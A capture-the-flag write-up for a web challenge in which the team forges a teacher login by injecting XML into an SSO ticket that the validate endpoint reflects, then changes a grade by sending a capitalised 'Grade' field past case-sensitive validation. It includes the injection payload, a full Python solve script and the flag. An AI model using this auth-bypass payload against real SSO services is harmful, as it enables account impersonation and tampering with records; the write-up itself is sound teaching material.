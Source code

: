 # 2Cool4School

## Challenge

> I just started at uni, but can't be bothered to show up. For some reason my Cyber Sec grade is F. Please help me get an A!

> Clarification: You have to change your own grade. Changing the grade gives you the flag when viewing your grades

## Walkthrough

We had a number of people working on this challenge. I didn't find this all on my own! Thanks Angus, Ming, and Vie.

---


We were given a single URL and as such I knew it would be sourceless web 🥲.

Visiting it brought us to a react web application that was meant for students to view their grade and teachers to add comments. Following the login button on the top brought us to an SSO login page.

![sso_login.png](./imgs/sso_login.png)

Looking at the SSO source we noticed that there was a comment noting that the system was using swagger:

```html
<!-- TODO: Update swagger to latest script version-->
```

As such Angus checked out `/swagger.json` and sure enough, it returned the API docs. Notably, it included information about `/register` and `/validate`.

Using our newfound knowledge of the API, we registered and acquiring a student account which allowed us to log into the web application.

![grades.png](./imgs/grades.png)

In the meantime, I had unminified and analyzed the JS and found the following endpoints:

```js
fetch("/flag");

fetch("/logout", { method: "POST" });

fetch("/whine", { method: "post" });

fetch("/api/profile");
fetch("/api/profile" + (t ? "/" + t : ""));

fetch("/api/profile/isNew");
fetch("/api/profile/role");

fetch("/api/profile", { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: t }) });
fetch("/api/profile", { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ picture: n }) });

fetch("/api/profile/new", { method: "post", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: t, picture: r }) });

fetch("/api/grades" + (t ? "/" + t : ""));
fetch("/api/grades/" + t, { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: n, values: { notes: r } }) });
```

Looking at these endpoints we figured that the goal would be to `PUT` to `/api/grades` and update the cybersecurity course to an `A`. However, we'd have to be a teacher to be able to access that endpoint.

We spent a lot of time wrestling with the application before Angus found a XML injection vulnerability in the SSO.

In essence, upon successfully authenticating with the SSO you are generated a unique ticket that is stored in a database. The other services (grade in this case) can call the SSO's `/validate?ticket=` endpoint to check whether the user successfully logged in via the SSO.

* Successful login at `://sso/login`
* SSO service sets `ticketFoo` in database. Redirects to `://grade/login?ticket=ticketFoo`.
* Grade service fetches `://sso/validate?ticket=ticketFoo` and sets cookie if SSO returns success.

Successful response from `/validate`:

```xml
<response>
    <authenticationSuccess><id>(user uuid)</id><username>student(int)</username></authenticationSuccess>
</response>
```

Failure response from `/validate`:

```xml
<response>
    <authenticationFailure>Failed for ticketFoo</authenticationFailure>
</response>
```

Due to the fact that fetching `http://sso.chal-kalmarc.tf/validate?ticket=token` would reflect the token back into the response, setting a token as the auth success XML would trick the grade service into signing you in for a user.

For example, fetching `http://grade.chal-kalmarc.tf/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id><username>teacher13095</username></authenticationSuccess></response>&service=test` would log you in as a teacher since the grade service would receive the following from the `/validate` endpoint:

```xml
<response>
    <authenticationFailure>Failed for TGT-</authenticationFailure>
        <authenticationSuccess>
            <id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id>
            <username>teacher13095</username>
        </authenticationSuccess>
        </response>
</response>
```

Now that we were logged in as a teacher, we just had to figure out how to use the `/api/grades` endpoint to set the grade. I reversed the javascript and found the parameters required. 

```js
function Il(e, t, n) {
    return Dl.apply(this, arguments);
}
function Dl() {
    return (Dl = l(
        a().mark(function e(t, n, r) {
            return a().wrap(function (e) {
                for (;;)
                    switch ((e.prev = e.next)) {
                        case 0:
                            return (e.next = 2), fetch("/api/grades/" + t, { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: n, values: { notes: r } }) });
                        case 2:
                        case "end":
                            return e.stop();
                    }
            }, e);
        })
    )).apply(this, arguments);
}
// ...
{
    return (e.next = 2), Il(r.props.params.id, r.state.editModal.name, r.state.editModal.comment); // .id = student uuid
}
```

```py
r = teacher.put(f'http://grade.chal-kalmarc.tf/api/grades/{studentID}', json={
    'name': 'Fundamentals of Cyber Security',
    'values': {
        'notes': 'gg',
        'grade': 'A' # try set grade
    },
})
```

Unfortunately, this didn't work as the service returned `grade is not allowed`. I began to play with the SQL and analyze it's errors.

```json
{"name":"SqlError","text":"Unknown column '__proto__' in 'field list'","sql":"UPDATE grades SET `notes` = ?, `__proto__` = ? WHERE student = ? and course = (select id from courses where name = ?) - parameters:['hi',{\"grade\":\"A\"},'4154b3ea-bb23-11ed-b345-0242c0a88002','Algebra']","fatal":false,"errno":1054,"sqlState":"42S22","code":"ER_BAD_FIELD_ERROR"}
```

However, Angus cheese it by using `Grade` instead of `grade`, guess the validation was case sensitive lol.

## Solve

```py
import httpx
import base64
import json

student = httpx.Client()
teacher = httpx.Client()

r = student.post(f'http://sso.chal-kalmarc.tf/register', json={
    'username': 'doesnt matter',
    'password': 'doesnt matter',
})
user = r.json()['username']
passwd = r.json()['password']
print(f'[{r.status_code}]', user, passwd)

r = student.post('http://sso.chal-kalmarc.tf/login?service=http://grade.chal-kalmarc.tf/login', data={
    'username': user,
    'password': passwd,
})
print(f'[{r.status_code}]: {r.url} {r.text}')

r = student.get(r.headers['Location'])
print(f'[{r.status_code}]: {r.url} {r.text}')

r = student.get('http://grade.chal-kalmarc.tf/api/profile/isnew')
print(f'[{r.status_code}]: {r.text}')

if r.json() == True:
    r = student.post(f'http://grade.chal-kalmarc.tf/api/profile/new', json={
        'name': 'test',
        'picture': 'test'
    })
    print(f'[{r.status_code}]: {r.text}')

r = teacher.get('http://grade.chal-kalmarc.tf/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id><username>teacher13095</username></authenticationSuccess></response>&service=test')
print(f'[{r.status_code}]: {r.text}')

studentID = json.loads(base64.b64decode(student.cookies.get('grade-session')))['user']['id']
print(studentID)

r = teacher.put(f'http://grade.chal-kalmarc.tf/api/grades/{studentID}', json={
    'name': 'Fundamentals of Cyber Security',
    'values': {
        'notes': 'gg',
        'Grade': 'A'
    },
})
print(f'[{r.status_code}]: {r.text}')

r = student.post('http://grade.chal-kalmarc.tf/whine')
print(f'whine [{r.status_code}]: {r.text}')

r = student.get('http://grade.chal-kalmarc.tf/flag')
print(f'[{r.status_code}]: {r.text}')

# kalmar{w00000w_n0_m0re_sch00l_d9a821a}
```

![win.png](imgs/win.png)
